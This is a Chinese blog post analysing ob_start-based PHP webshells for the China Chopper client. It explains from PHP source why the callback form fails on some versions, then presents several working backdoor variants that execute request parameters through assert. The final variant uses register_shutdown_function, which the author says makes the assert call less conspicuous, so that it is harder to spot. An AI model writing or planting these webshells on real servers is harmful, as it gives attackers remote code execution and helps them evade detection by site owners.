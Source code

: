 ```yaml
---
layout:     post
title:      ob_start用于菜刀的可行性分析
category: blog
description: php ob_start webshell
---
```


传统的ob_start马是这样用：

    <?php
    ob_start('assert'); 
    echo $_REQUEST['pass']; 
    ob_end_flush();
    ?>
经过本人测试这种方法在PHP5.4.X以上版本可以执行代码，但没有任何回显，当然也就不能用于菜刀，那么究竟是什么原因导致的不能回显呢？

分析
ob_start(“assert”)的意思设置assert作为ob操作结束时回调函数，ob_start要求回调函数接收两个参数，而在PHP 5.4.8以下版本assert只接受一个参数，所以5.3.X这样用都不能成功执行代码。恰好本人在做一个基于污点跟踪的webshell监控的玩意，测试这个时候始终不能执行，百思不得其解之后发现是版本问题，汗
5.4.8以上版本的PHP可以成功执行，但是assert执行内容不能有print/echo等ob输出，看PHP源代码找到原因：
> main\output.c

    PHPAPI void php_end_ob_buffer(zend_bool send_buffer, zend_bool just_flush TSRMLS_DC)
    {
    …
    
    OG(ob_lock) = 1;  //调用回调之前设置ob_lock
    //下面就是去调用回调函数
    if (call_user_function_ex(CG(function_table), NULL, OG(active_ob_buffer).output_handler, &alternate_buffer, 2, params, 1, NULL TSRMLS_CC)==SUCCESS) {
      if (alternate_buffer && !(Z_TYPE_P(alternate_buffer)==IS_BOOL && Z_BVAL_P(alternate_buffer)==0)) {
    convert_to_string_ex(&alternate_buffer);
    final_buffer = Z_STRVAL_P(alternate_buffer);
    final_buffer_length = Z_STRLEN_P(alternate_buffer);
      }
    }
    OG(ob_lock) = 0;
而在

    PHPAPI int php_start_ob_buffer(zval *output_handler, uint chunk_size, zend_bool erase TSRMLS_DC)
    {
      uint initial_size, block_size;
    
      if (OG(ob_lock)) {  //判断是否设置ob_lock
    if (SG(headers_sent) && !SG(request_info).headers_only) {
      OG(php_body_write) = php_ub_body_write_no_header;
    } else {
      OG(php_body_write) = php_ub_body_write;
    }
    OG(ob_nesting_level) = 0;
    //在回调之中调用ob相关函数会引发FATAL ERROR
    php_error_docref("ref.outcontrol" TSRMLS_CC, E_ERROR, "Cannot use output buffering in output buffering display handlers");
    return FAILURE;
      }
可以看到一旦使用了print/echo等等输出函数，就会调用php_start_ob_buffer，而php_start_ob_buffer中判断了是不能在display handlers中使用ob的，一旦使用就会造成Fatal error。所以想在菜刀中那样使用ob_start不仅仅是不输出的问题，而是压根就不能成功执行。PHP这样设计的原因是显而易见的，在输出回调中再去输出会造成死循环。

解决
所以要通用的在各版本使用ob_start回调，就不能在ob回调函数中去执行eval/assert，因此用以下这种方案：

    <?php
    $evalstr="";
    function myeval($c,$d)
    {
    global $evalstr;
    $evalstr=$c;
    }
    ob_start('myeval');
    echo $_REQUEST['pass'];
    ob_end_flush();
    assert($evalstr);
    ?>
但是这样代码太长不好看，PHP5.3以上支持闭包可以使用以下方案：

    <?php
    $evalstr="";
    ob_start(function ($c,$d){global $evalstr;$evalstr=$c;});
    echo $_REQUEST['pass'];
    ob_end_flush();
    assert($evalstr);
    ?>
但是直接调用了assert还是太显眼不完美，于是再改进，使用register_shutdown_function：

    <?php
    ob_start(function ($c,$d){register_shutdown_function('assert',$c);});
    echo $_REQUEST['pass'];
    ob_end_flush();
    ?>
这个最终版本看上去顺眼多了。
注：以上代码在PHP5.3.3中测试成功。